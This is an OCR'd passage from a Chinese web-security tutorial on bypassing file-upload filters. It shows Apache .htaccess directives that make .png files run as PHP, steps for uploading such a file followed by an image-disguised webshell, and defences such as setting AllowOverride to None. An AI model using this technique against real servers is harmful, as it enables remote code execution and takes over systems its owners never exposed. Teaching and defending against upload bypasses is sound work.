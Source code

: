 c.设置处理器`SetHandler`： SetHandler指令可以强制所有匹配的⽂件被⼀个指定的处理器处理。 

```bash
SetHandler application/x-httpd-php 
//当前⽬录以及⼦⽬录所有⽂件将会被当作php解析。
```

d.`AddType`： 将给定的⽂件扩展名映射到指定的内容类型。 

```bash
AddType application/x-httpd-php .png
//png为后缀的⽂件当作php⽂件解析。
```

e.⾃定义错误回显⻚⾯

```
ErrorDocument 404 /error_pages/404.html
 //Apache服务器在发⽣404的时候显示/error_pages/404html。⾃定义出错⻚⾯
```

创建.htaccess⽂件可能出现问题：

1.Windows 不能修改**⽂件名为空**

解决：使⽤`ren`命令

步骤：

```bash
ren 1.txt .htaccess //把1.txt 修改为.htaccess⽂件
```

###### 4.具体绕过步骤

1.编写.htaccess⽂件内容，进⾏上传

```bash
<FilesMatch '2.png'>
	SetHandler application/x-httpd-php
</FilesMatch>


<IfModule mime_module>
	AddHandler php5-script .png
	SetHandler application/x-httpd-php
</IfModule>
```

2.上传图⽚⻢或其他⽂件等

3.上传图⽚后进⾏查看

###### 5.防御措施

1. a：禁⽤ 户上传.htaccess⽂件
2. b：忽略.htaccess⽂件
3. c：编辑apache配置⽂件
4. d：修改`AllowOverride`的值为`None`，表示忽略.htaccess⽂件⼤⼩写绕过⿊名单机制，可以⽤bp 辅助进⾏fuzz测试。配合后缀，到intruder⾥进⾏爆破 

##### 2.1. `.user.ini`配置文件
